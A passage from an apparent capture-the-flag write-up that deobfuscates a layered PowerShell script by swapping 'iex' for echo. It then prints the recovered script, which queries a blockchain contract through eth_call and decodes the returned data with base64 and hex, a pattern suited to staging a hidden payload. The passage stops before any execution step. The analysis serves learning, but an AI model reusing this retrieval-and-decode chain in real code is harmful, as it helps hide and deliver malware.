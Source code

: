 Same deal, more readable but still obfuscated  
The next "iex" is at the end of the script

![more1](img/22.png)

![more2](img/23.png)

Replace with echo and run

![more3](img/24.png)

![more4](img/25.png)

Now we have clear Powershell

## Getting To the Flag

Here is the final clear Powershell Script

```powershell
Set-Variable -Name testnet_endpoint -Value (" ")
Set-Variable -Name _body -Value ('{"method":"eth_call","params":[{"to":"$address","data":"0x5c880fcb"}, BLOCK],"id":1,"jsonrpc":"2.0"}')
Set-Variable -Name resp -Value ((Invoke-RestMethod -Method 'Post' -Uri $testnet_endpoint -ContentType "application/json" -Body $_body).result)

# Remove the '0x' prefix
Set-Variable -Name hexNumber -Value ($resp -replace '0x', '')
# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes0 -Value (0..($hexNumber.Length / 2 - 1) | ForEach-Object {
    Set-Variable -Name startIndex -Value ($_ * 2)
    Set-Variable -Name endIndex -Value ($startIndex + 1)
    [Convert]::ToByte($hexNumber.Substring($startIndex, 2), 16)
})

Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))
Set-Variable -Name bytes2 -Value ($bytes1.Substring(64, 188))

# Convert from base64 to bytes
Set-Variable -Name bytesFromBase64 -Value ([Convert]::FromBase64String($bytes2))
Set-Variable -Name resultAscii -Value ([System.Text.Encoding]::UTF8.GetString($bytesFromBase64))
Set-Variable -Name hexBytes -Value ($resultAscii | ForEach-Object {
    '{0:X2}' -f $_  # Format each byte as two-digit hex with uppercase letters
})

Set-Variable -Name hexString -Value ($hexBytes -join ' ')
#Write-Output $hexString
Set-Variable -Name hexBytes -Value ($hexBytes -replace " ", "")

# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes3 -Value (0..($hexBytes.Length / 2 - 1) | ForEach-Object {
    Set-Variable -Name startIndex -Value ($_ * 2)
```